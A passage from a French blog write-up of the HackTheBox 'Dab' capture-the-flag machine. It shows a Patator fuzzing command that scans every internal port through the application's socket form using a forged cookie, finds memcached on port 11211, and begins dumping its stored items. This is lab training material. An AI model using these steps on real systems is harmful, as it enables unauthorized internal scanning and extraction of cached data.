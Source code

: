 ![HackTheBox Dab CTF cookie edit](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_cookie_manager.png)

On se retrouve alors sur un formulaire permettant d'envoyer des données vers un port local de la machine :  

![HackTheBox Dab CTF socket send form](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_socket.png)

On peut aussi passer une plage numérique à Patator :  

```plain
$ patator http_fuzz url='http://10.10.10.86:8080/socket?port=RANGE0&cmd=hello' header='Cookie: password=secret;' 0=int:0-65535  -x ignore:code=500
10:20:29 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-13 10:20 CET
10:20:29 patator    INFO -
10:20:29 patator    INFO - code size:clen       time | candidate                          |   num | mesg
10:20:29 patator    INFO - -----------------------------------------------------------------------------
10:20:29 patator    INFO - 200  459:287        0.121 | 0                                  |     1 | HTTP/1.1 200 OK
10:20:29 patator    INFO - 200  801:629        0.172 | 22                                 |    23 | HTTP/1.1 200 OK
10:20:29 patator    INFO - 200  799:627        0.179 | 21                                 |    22 | HTTP/1.1 200 OK
10:20:30 patator    INFO - 200  1183:1010      0.113 | 80                                 |    81 | HTTP/1.1 400 Bad Request
10:22:15 patator    INFO - 200  1183:1010      0.073 | 8080                               |  8081 | HTTP/1.1 400 Bad Request
10:22:54 patator    INFO - 200  748:576        0.074 | 11211                              | 11212 | HTTP/1.1 200 OK
10:35:48 patator    INFO - Hits/Done/Skip/Fail/Size: 6/65536/0/0/65536, Avg: 71 r/s, Time: 0h 15m 19s
```

On a gagné un port intéressant : 11211 qui est [le port par défaut](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers) pour [memcached](https://en.wikipedia.org/wiki/Memcached).  

Sur [cet article](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/) ou en lisant le code du module [memcached\_extractor](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/memcached_extractor.rb) de *Metasploit* on peut trouver quelques commandes que l'on peut passer à memcached.  

Ainsi en envoyant *stats items* j'ai le retour suivant :  

```plain
STAT items:16:number 1
STAT items:16:age 1024
STAT items:16:evicted 0
STAT items:16:evicted_nonzero 0
STAT items:16:evicted_time 0
STAT items:16:outofmemory 0
STAT items:16:tailrepairs 0
STAT items:16:reclaimed 0
STAT items:16:expired_unfetched 0
STAT items:16:evicted_unfetched 0
STAT items:16:crawler_reclaimed 0
STAT items:16:crawler_items_checked 0
STAT items:16:lrutail_reflocked 0
STAT items:26:number 1
STAT items:26:age 74
STAT items:26:evicted 0
STAT items:26:evicted_nonzero 0
STAT items:26:evicted_time 0
STAT items:26:outofmemory 0
STAT items:26:tailrepairs 0
STAT items:26:reclaimed 0
```